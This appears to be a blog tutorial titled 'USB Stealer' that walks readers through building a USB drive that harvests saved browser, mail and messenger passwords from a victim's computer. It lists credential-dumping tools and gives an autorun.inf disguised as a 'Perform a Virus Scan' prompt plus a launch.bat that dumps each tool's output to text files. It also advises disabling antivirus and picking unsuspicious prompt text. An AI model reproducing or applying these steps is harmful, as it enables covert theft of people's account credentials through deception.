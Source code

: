 ```yaml
---
title: USB Stealer, Just like those unrealistic movies and TV shows, except this
  one's real.
path: /usb-stealer
tags:
  - Cyber Security
metaImage: assets/usb.jpg
featuredImage: ./assets/usb.jpg
excerpt: Every security system has a flaw and what we’re going to discuss here
  is just that. Most people, with their eyes on the clock and not a second to
  spare just tick “Remember Me” on various websites without a second thought
created: 2020-07-18T10:42:37.871Z
updated: 2020-07-18T10:42:37.933Z
---
```

There’s a lot of people in the world and even more online accounts. Every security system has a flaw and what we’re going to discuss here is just that. Most people, with their eyes on the clock and not a second to spare just tick “Remember Me” on various websites without a second thought thinking it’s going to save their time. This is particularly common among people who have a private system, maybe a Laptop that nobody else ever touches or a PC which they have locked with a password. Not knowing that there exist many tools to “recover” saved passwords (More like- to exploit exactly these naive people). Browsers store passwords and account details in cookies. What’s quite surprising is just how little security they offer, even worse, none of the browsers seem to care about encrypting passwords. Most of them have an option to “Show Saved Passwords” in the options menu. We’re going to cut even that out, just plug in a USB- Take it out- and Voila! we have all the passwords. That is what you’ll learn in this tutorial. So, with a goal in mind and not a second to spare, let’s start right away.

Things you will need (Intentionally no links are attached):-

**MessenPass** - MessenPass is a password recovery tool that reveals the passwords of several common instant messenger applications.

**Mail PassView** - Mail PassView is a small password-recovery tool that reveals the passwords and other account details for Outlook express, windows mail, POP3, etc

**IE Passview** - IE passview is another small program that helps us view stored passwords in Internet explorer.

**Protected storage pass viewer(PSPV)** - Protected Storage PassView is a small utility that reveals the passwords stored on your computer by Internet Explorer, Outlook Express and MSN Explorer.

**Password Fox** - Password fox is a small program used to view Stored passwords in Mozilla Firefox. (These are the ones I’ve tried and tested. More like these surely exist and you can always Google it out for something possibly better. There are analogous tools for the Chrome browser too. You can find these and tons more at )

So that’s that and now we are ready to create a USB password stealer.

**Note:** These programs tend to attract a lot of attention from antivirus software (Get used to this). Kindly disable your antivirus before performing these steps, at your own risk of course 😉

1. First of all download all 5 tools in your USB. Most of them are just some .exe files (mspass.exe, mailpv.exe, iepv.exe, pspv.exe, and passwordfox.exe). (You need the software completely on your pen drive. Make sure you have all the installation files in your USB\[if any])
2. Create a new Notepad and write the following text into it: \[autorun] open=launch.bat

ACTION= Perform a Virus Scan

Save the Notepad and rename it from New Text Document.txt to autorun.inf

Now copy the autorun.inf file onto your USB Pendrive.

1. Create another Notepad and write the following text onto it.

   ```
   start mspass.exe /stext mspass.txt

   start mailpv.exe /stext mailpv.txt

   start iepv.exe /stext iepv.txt

   start pspv.exe /stext pspv.txt

   start passwordfox.exe /stext passwordfox.txt
   ```
2. Save the Notepad and rename it from New Text Document.txt to launch.bat
3. Copy the launch.bat file also to your USB drive.

These were simple commands to start up our password “recovering” programs as soon as we plug in the USB. What we just did here is simply hook up our launch.bat batch file to the autorun.inf file that automatically runs when the computer detects the USB. In the launch.bat, we started up our programs and provided them with file names as parameters so that each program should put in the passwords in their respective .txt files.

- - -

Now your USB password stealer is ready. All you have to do is insert it in your victims computer and a popup will appear, in the popup window select the option (Perform a virus scan) as soon as you will click it, your USB password stealer will do it’s magic and all the passwords saved on the system will be saved in a .txt file. I recommend you try it out on your own system first to see how it should work.

See the last line of our autorun.inf, we are simply specifying the text for the alert dialog. You can type in anything you think is the least suspicious.

This may not work on all operating systems and all different browsers. Your best bet would be to pack in as many diverse programs as you can for giving you the best chance. Also, note that the computer should not have autorun feature disabled for the USB stealer to work.
